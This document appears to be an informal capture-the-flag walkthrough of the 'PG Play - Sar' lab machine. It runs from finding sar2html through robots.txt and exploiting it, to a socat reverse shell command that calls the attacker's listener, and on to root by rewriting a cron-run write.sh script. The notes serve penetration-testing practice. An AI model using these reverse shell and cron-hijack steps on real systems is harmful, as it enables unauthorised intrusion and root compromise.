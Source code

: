 # PG Play - Sar
## Author: Love Sharma
### Released on:Jul 20, 2020


This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.


Target: 192.168.246.35


Nmap found port 80 opened then found this sar2html in robots.txt



Found exploit for sar2html



echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


/usr/sbin

Didn't have a tty shell so found a 
Tested a few different types, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands


On Kali (listen):

1
socat file:`tty`,raw,echo=0 tcp-listen:4444
On Victim (launch):

1
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444

socat once I used the sarhtml exploit to get a dumb shell to convert to a tty



Found with linpeas that I was able to view the crontabs file (/var/spool/cron/crontabs) could have found it with a command after picture though also quicker


cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"


Found that the finally script ran as root from the cron job and all it did was execute the write.sh which I was able to modify, found it horrendous trying to modify in the slow tty shell so I created a new one and tested all the same reverse shells like a dummy that didn't work earlier and realised socat should work since it worked earlier and moved it over with a http server and wget in between the cron jobs and listened on the port 1337 with the same socat listener command used earlier to get a tty shell










